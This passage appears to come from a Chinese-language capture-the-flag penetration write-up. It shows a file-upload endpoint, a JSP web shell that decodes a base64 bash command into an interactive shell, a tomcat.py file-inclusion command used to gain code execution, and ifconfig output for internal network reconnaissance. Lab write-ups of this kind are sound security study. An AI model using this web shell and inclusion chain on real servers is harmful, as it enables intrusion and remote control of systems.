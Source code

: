 http://39.98.127.74:8080/UploadServlet

![image-20230816114245945](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308161142978.png)

结合文件包含实现 RCE

```jsp
<%
    java.io.InputStream in = Runtime.getRuntime().exec("bash -c {echo,[REDACTED]}|{base64,-d}|{bash,-i}").getInputStream();
    int a = -1;
    byte[] b = new byte[2048];
    out.print("<pre>");
    while((a=in.read(b))!=-1){
        out.println(new String(b));
    }
    out.print("</pre>");
%>
```

include

```shell
python3 tomcat.py read_file --webapp=ROOT upload/657fee58191da93589dcd31f38fd1b5b/20230816122910173.txt 39.99.156.24
```

![image-20230816122958289](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308161229322.png)

flag01

![image-20230816123037121](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308161230155.png)

## flag02

内网信息

```shell
root@ubuntu:/tmp# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.22.11.76  netmask 255.255.0.0  broadcast 172.22.255.255
        inet6 fe80::216:3eff:fe21:d526  prefixlen 64  scopeid 0x20<link>
        ether 00:16:3e:21:d5:26  txqueuelen 1000  (Ethernet)
        RX packets 62357  bytes 82200796 (82.2 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 21831  bytes 2557039 (2.5 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 680  bytes 58143 (58.1 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 680  bytes 58143 (58.1 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```
